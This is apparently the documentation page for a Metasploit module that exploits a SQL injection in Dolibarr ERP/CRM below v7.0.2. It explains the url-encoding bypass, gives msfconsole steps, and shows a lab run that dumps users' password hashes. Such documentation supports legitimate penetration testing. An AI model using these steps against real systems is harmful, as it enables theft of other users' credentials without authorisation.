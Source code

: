 ## Description

  This module enables an authenticated user to collect usernames and encrypted passwords of other users of the ERP/CRM Dolibarr software via SQL injection.
  Checks in the Dolibarr software can be bypassed by url-encoding the SQL commands, provided that the commands do not contain quotes.

## Vulnerable Application

  Dolibarr ERP/CRM Software versions < v7.0.2. Dolibarr v7.0.0 can be found [here](https://www.exploit-db.com/apps/04b0bb4b4864117b5bf47c0fcc737254-dolibarr-7.0.0.tar.gz).
  By default, user accounts do not have access to view the list of other users of the software. The admin account must first be used to enable the members page, create general users, and give those users permission to access the members page.
  
## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/gather/dolibarr_list_creds_sqli```
  4. Do: ```set RHOSTS [IP]```
  5. Do: ```set USERNAME [USER]```
  6. Do: ```set PASSWORD [PASS]```
  7. Do: ```set TARGETURI [URI]```
  8. Do: ```run```
  9. You should get a list of credentials

## Scenarios

### Tested on Dolibarr v7.0.0 running on Ubuntu 18.04

```

  msf5 > use auxiliary/gather/dolibarr_list_creds_sqli
  msf5 auxiliary(gather/dolibarr_list_creds_sqli) > set username test
  username => test
  msf5 auxiliary(gather/dolibarr_list_creds_sqli) > set password blah
  password => blah
  msf5 auxiliary(gather/dolibarr_list_creds_sqli) > set targeturi /dolibarr
  targeturi => /dolibarr
  msf5 auxiliary(gather/dolibarr_list_creds_sqli) > set rhosts 192.168.37.228
  rhosts => 192.168.37.228
  msf5 auxiliary(gather/dolibarr_list_creds_sqli) > run

  [*] Logging in...
  [+] Successfully logged into Dolibarr
  [+] Accessed credentials
  [+] user 8456167fd64d3cda366bda95088dda4d7ea94995
  [+] test 9d49884ec5f2c8431572a73e3285ceed3f0bdc5b
  [+] blahBlah e345d4aa5a6a63f828870b0d299dd921d119a5c7
  [+] someUser fe79b08f9f6a1104a141ff65047087a36d926f12
  [*] Auxiliary module execution completed

```
